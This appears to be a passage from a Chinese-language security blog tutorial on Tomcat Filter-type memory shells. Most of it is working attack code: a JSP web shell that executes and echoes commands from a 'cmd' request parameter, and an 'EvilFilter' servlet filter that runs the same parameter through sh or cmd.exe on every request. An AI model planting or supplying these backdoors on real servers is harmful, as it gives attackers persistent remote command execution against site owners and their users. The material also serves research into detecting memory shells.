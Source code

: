 JAVA

```
<% if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.print(new String(b));
    }
    out.print("</pre>");
}
 
%>
```

![img](https://drun1baby.top/2022/08/22/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-03-Tomcat-%E4%B9%8B-Filter-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/MessageBackJSP.png)

那么现在，我们要把这个恶意的有回显的🐎插入到 Filter 里面进去，也就是说要配置一个恶意的 Filter，代码如图

JAVA

```
import javax.servlet.*;  
import javax.servlet.annotation.WebFilter;  
import javax.servlet.annotation.WebServlet;  
import javax.servlet.http.HttpServletRequest;  
import javax.servlet.http.HttpServletResponse;  
  
import java.io.IOException;  
import java.io.InputStream;  
import java.util.Scanner;  
  

public class EvilFilter implements Filter {  
    public void destroy() {  
    }  
  
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {  
        HttpServletRequest req = (HttpServletRequest) request;  
 HttpServletResponse resp = (HttpServletResponse) response;  
 if (req.getParameter("cmd") != null) {  
            boolean isLinux = true;  
 String osTyp = System.getProperty("os.name");  
 if (osTyp != null && osTyp.toLowerCase().contains("win")) {  
                isLinux = false;  
 }  
            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};  
 InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();  
 Scanner s = new Scanner(in).useDelimiter("\\A");  
 String output = s.hasNext() ? s.next() : "";  
 resp.getWriter().write(output);  
 resp.getWriter().flush();  
 }  
        chain.doFilter(request, response);  
 }  
  
    public void init(FilterConfig config) throws ServletException {  
  
    }  
  
}
```